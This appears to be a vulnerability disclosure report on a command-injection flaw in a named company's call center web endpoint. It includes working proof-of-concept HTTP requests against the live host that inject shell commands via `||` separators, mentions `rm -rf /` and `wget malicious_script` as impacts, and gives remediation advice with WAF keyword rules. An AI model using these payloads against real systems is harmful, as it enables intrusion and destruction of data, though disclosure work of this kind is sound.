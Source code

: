 # Vulnerability Title
**Remote Code Execution (RCE) Vulnerability in Aishida Co., Ltd. Call Center System**  


# Vulnerability Overview
A Remote Code Execution (RCE) vulnerability exists in the interface of Aishida Co., Ltd.'s call center system. Attackers can exploit this vulnerability by crafting malicious request parameters to execute arbitrary shell commands on the target server, thereby gaining full control of the system. The root cause is insufficient input validation, allowing attackers to inject command separators (e.g., `||`) to trigger malicious code execution.  

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741962864697-455e1676-a6e4-4199-9cd7-c59a34662aaa.png)
**Vulnerability Website**http://www.asd.com.cn/

# Asset Verification
## Company Profile
Aishida Co., Ltd. (Stock Code: 002403), founded in 1978, is a publicly listed enterprise specializing in the R&D, manufacturing, and marketing of cookware, small kitchen appliances, and industrial robots. With nearly 10,000 employees, the company achieved over 3 billion RMB in sales revenue in 2021. It operates production facilities in Wenling, Jiashan, Hubei, and Shanghai, and maintains a comprehensive sales network covering over 60,000 terminals (direct sales + distributors), e-commerce platforms, live streaming, social communities, group purchasing, TV shopping, cross-border e-commerce, and OEM exports. Brand ambassadors include Sun Li and Ren Jialun.  

Aishida has participated in drafting 20 national or industry standards for cookware, including non-stick pans, smokeless pans, aluminum pressure cookers, and stainless steel pressure cookers. The GB 15066—2004 stainless steel pressure cooker standard, co-drafted by Aishida, won the China Standards Innovation Contribution Award. The company is recognized as a National Intellectual Property Pilot Enterprise and a National Torch Program Key High-Tech Enterprise. Guided by its mission, "Manufacturing Healthy Kitchen Products to Enhance Human Life Quality," Aishida strives to promote green kitchens and aims to evolve into a dual-driven enterprise integrating cookware, home goods, consumer products, and intelligent manufacturing.  

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741960859990-099ce111-60ab-434b-8922-7ca6c6af26ea.png)  

## Corporate Information
### ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741961216972-90c4cb20-8b40-4e15-a67c-23f0972ffaac.png)
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741961341526-993f929b-b0c0-4640-a63d-966165b11ee1.png)  
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741961255910-c1d5af07-3ddd-45af-ac8c-04f6fbde7912.png)  

+ **Chinese Name:** 爱仕达股份有限公司  
+ **English Name:** Aishida Co., Ltd.  
+ **Website:** [http://www.chinaasd.com](http://www.chinaasd.com)  
+ **Email:** 445778987@qq.com


# Technical Analysis
## Vulnerability Location
**Affected Endpoint:**  

```http
http://www.asd.com.cn/doscall/weixin/open/amr2mp3?file=[User Input]  
```

## Root Cause
1. **Lack of Input Sanitization:** The `file` parameter is directly concatenated into system commands (e.g., using `system()` or `popen()` functions).  
2. **Command Injection Logic:**  
The server expects to execute commands such as:  

```bash
ffmpeg -i [User Input].amr output.mp3  
```

If an attacker injects `a 'aaabbbcccddd || sleep 5 ||`, the executed command becomes:  

```bash
ffmpeg -i a 'aaabbbcccddd || sleep 5 ||.amr output.mp3  
```

The shell interpreter treats `||` as command separators, causing `sleep 5` to execute independently.


# Proof of Concept (PoC)
## PoC 1: Delay via Sleep Command
### Sleep for 5 Seconds
1. **PoC Request:**  

```http
http://www.asd.com.cn/doscall/weixin/open/amr2mp3?file=a 'aaabbbcccddd || `sleep 5`   ||  
```

2. **URL-Encoded Request:**  

```http
http://www.asd.com.cn/doscall/weixin/open/amr2mp3?file=a%20%27aaabbbcccddd%20||%20`sleep%205`%20%20%20||  
```

3. **Validation:**  
    - Observe response time: A 5-second delay confirms successful execution.  
    - Replace `sleep 5` with other commands (e.g., `id`) to retrieve system user information.

### Burp Suite Request
```http
GET /doscall/weixin/open/amr2mp3?file=a%20%27aaabbbcccddd%20||%20`sleep%205`%20%20%20|| HTTP/1.1  
Host: www.asd.com.cn  
Upgrade-Insecure-Requests: 1  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7  
Accept-Encoding: gzip, deflate, br  
Accept-Language: zh-CN,zh;q=0.9  
Cookie: PHPSESSID=2s9mg0ocf8hsvru6rfh9agvhh7  
x-forwarded-for: 127.0.0.1  
Connection: keep-alive  
```

### Screenshots
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741961160896-35b79252-647c-4447-ac0b-b75b87a5b4c1.png)  
![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741961815540-79db6fd6-544e-44fc-aa78-6d7471e2cae6.png)  


## PoC 2: Sleep for 10 Seconds
```http
GET /doscall/weixin/open/amr2mp3?file=a%20%27aaabbbcccddd%20||%20`sleep%2010`%20%20%20|| HTTP/1.1  
Host: www.asd.com.cn  
Upgrade-Insecure-Requests: 1  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7  
Accept-Encoding: gzip, deflate, br  
Accept-Language: zh-CN,zh;q=0.9  
Cookie: PHPSESSID=2s9mg0ocf8hsvru6rfh9agvhh7  
x-forwarded-for: 127.0.0.1  
Connection: keep-alive  
```

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1741961982633-d84201b4-5d26-421b-b924-ef003e78fdd6.png)  


# Impact Assessment
1. **Full Server Compromise:** Attackers can execute commands like `rm -rf /` or `wget malicious_script`, leading to data breaches or system crashes.  
2. **Lateral Movement:** Compromised servers can be used as pivots to attack internal databases or other systems.  
3. **Compliance Risks:** Violates Articles 21 and 25 of China’s Cybersecurity Law, exposing the company to legal penalties.  
4. **Reputation Damage:** Data breaches severely harm brand credibility.


# Remediation Strategies
## 1. Input Filtering & Whitelisting
+ **Regex Filtering:** Restrict the `file` parameter to valid characters (e.g., `^[a-zA-Z0-9_\-\.]+$`), blocking inputs containing `|`, `&`, `;`, etc.  
+ **Predefined File List:** Match input against a predefined list if `file` corresponds to fixed resources.

## 2. Secure Command Execution
+ **Parameterized APIs (Python Example):**  

```python
subprocess.run(["ffmpeg", "-i", user_input + ".amr", "output.mp3"], shell=False)  
```

+ **Avoid Command Concatenation:** Refrain from using high-risk functions like `os.system()`.

## 3. Least Privilege
+ **Non-root Execution:** Run web services under a non-root user with restricted filesystem access.

## 4. Emergency Mitigation
+ **WAF Rules:** Block requests containing keywords like `sleep`, `&&`, `||`.  
+ **Log Monitoring:** Alert on suspicious activities (e.g., `/bin/sh` invocations).

## 5. Long-term Hardening
+ **Code Audit:** Review all interfaces for similar vulnerabilities.  
+ **Penetration Testing:** Conduct regular third-party black-box testing.


**Formatting Notes:**  

1. Use ` to separate sections for clarity.  
2. Specify code block languages (e.g., `bash`, `http`) for readability.  
3. Include technical details (e.g., regex patterns, code samples) in remediation strategies.  
4. Supplement PoC sections with screenshots to enhance credibility.

